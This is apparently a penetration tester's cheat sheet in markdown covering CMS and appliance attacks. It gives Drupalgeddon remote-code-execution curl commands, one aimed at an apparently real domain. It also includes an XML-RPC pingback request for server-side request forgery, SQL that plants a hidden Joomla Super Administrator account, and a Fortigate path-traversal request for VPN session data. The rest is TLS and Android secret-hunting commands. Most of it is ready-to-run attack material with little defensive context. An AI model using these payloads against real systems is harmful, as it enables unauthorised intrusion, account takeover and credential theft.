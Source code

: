 # Techno Specific

## **CMS**

### Tools

```text
Nikto
CMSmap
WhatCMS
Wpseku
WPScan
droopescan
joomscan
```

---

### Wordpress

Find version

* into xml via website.com/rss
* Html source code
* CMSmap or WPScan

XMLrpc

List methods

```bash
POST /xmlrpc.php HTTP/1.1
Host: <target>
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 95

<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```

if there is pingback, try :

```bash
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<ip_pingback>:<port></string></value>
</param><param><value><string>http://<ip_pingback>:<port>/toto</string>
</value></param></params>
</methodCall>
```

---

### Drupal

```bash
drupal , intruder from 0 to 500 on /node/$

/imce

Druppalgeddon 2/3
```

POC1 drupal 8

```bash
  curl -k -i 'https://filalapat.fr/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax' \
    --data 'form_id=user_register_form&_drupal_ajax=1&mail[a][#post_render][]=exec&mail[a][#type]=markup&mail[a][#markup]=uname -a'
```

POC2 drupal 8

```bash
curl -k -i 'https://filalapat.fr/user/register?element_parents=timezone/timezone/%23value&ajax_form=1&_wrapper_format=drupal_ajax' \
    --data 'form_id=user_register_form&_drupal_ajax=1&timezone[a][#lazy_builder][]=exec&timezone[a][#lazy_builder][][]=touch+/tmp/2'
```

POC3 drupal 7

```bash
 curl -k -s 'http://localhost/drupal-7.55/?q=user/password&name\[%23post_render\]\[\]=passthru&name\[%23type\]=markup&name\[%23markup\]=uname+-a' \
    --data "form_id=user_pass&_triggering_element_name=name" | grep form_build_id
```

---

### Joomla

Joomla 1.5

```bash
user:md5_gen(1)MD5$SALT
```

*  [https://www.exploit-db.com/exploits/6234](https://www.exploit-db.com/exploits/6234)
* [http://www.passwordtool.hu/joomla-password-hash-generator-salt-key](http://www.passwordtool.hu/joomla-password-hash-generator-salt-key)

```bash
creer new users INSERT INTO jos_users (name, username, password, usertype, gid, params) VALUES ('toto', 'toto', 'fcba92f4dd6b902f8a66054b8327ae6b:F2sVBzlFOUl51D3HtRZ0tionaJQGQqB', 'Super Administrator', 25, ''); INSERT INTO jos_core_acl_aro VALUES (NULL, 'users', LAST_INSERT_ID(), 0, 'toto', 0); INSERT INTO jos_core_acl_groups_aro_map VALUES (25, '', LAST_INSERT_ID());
```

---

## **Reactjs**

Security Testers: Inject JavaScript and JSON wherever you can and see what happens. Developers: Don’t ever `useeval()` or `dangerouslySetInnerHTML`. Avoid parsing user-supplied JSON.

---


## **Angularjs**

check the bypassSecurityTrustX / innerHTML function

```bash
bypassSecurityTrustHtml
bypassSecurityTrustScript
bypassSecurityTrustStyle
bypassSecurityTrustUrl
bypassSecurityTrustResourceUrl
```

---

## **ckfinder**

```bash
ckfinder/ckfinder.html
```

---

## **Git**

```bash
https://github.com/internetwache/GitTools/tree/master/Dumper
https://github.com/arthaud/git-dumper
run script post-merge https://docs.gitlab.com/ee/administration/custom_hooks.html  .git/hooks
```

---

## **Stormshield**

* TCP PORT 1300

[https://documentation.stormshield.eu/SNS/v3/fr/Content/CLI\_Serverd\_Commands\_reference\_Guide\_v3/Introduction.htm](https://documentation.stormshield.eu/SNS/v3/fr/Content/CLI_Serverd_Commands_reference_Guide_v3/Introduction.htm)

Check default password : \(UpdatePasswd=1 if factory password, 0 if the password already have been changed\) CHPWD 101 code=00a01000 msg="Begin" format="section" \[Result\] UpdatePasswd=0

---

## **Fortigate**

```bash
/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession
```

---

## **Dana**

* [https://XXXX/dana-na/setup/psalinstall.cgi](https://XXXX/dana-na/setup/psalinstall.cgi)

---

## **GPG decode**

```bash
gpg --decrypt Test.zip.gpg > test.zip ( popup password )
```

---

## **SSL / TLS**

* [testssh.sh](https://github.com/drwetter/testssl.sh)

check Heartbleed

```bash
cat list.txt | while read line ; do echo "QUIT" | openssl s_client -connect $line:443 2>&1 | grep 'server extension "heartbeat" (id=15)' || echo $line: safe; done
```

Openssl

```bash
openssl s_client -cipher BEAST -connect <target>:443
openssl s_client -connect <target>:443 -ssl3

# Expiration date
openssl s_client -connect <target>:443 | openssl x509 -noout -dates
```

check lucky13

```bash
openssl s_client -cipher DES-CBC3-SHA -connect xx.fr:443
```

---

## **SSH** 

check if 4096 key

```bash
ssh-keygen -l -f key.pub
```

---

## **Android**

`Apktool`

```bash
apktool d app_name.apk
```

Extract sensitive info

```bash
grep -EHirn "accesskey|admin|aes|api_key|apikey|checkClientTrusted|crypt|http:|https:|password|pinning|secret|SHA256|SharedPreferences|superuser|token|X509TrustManager|insert into" APKfolder/
```



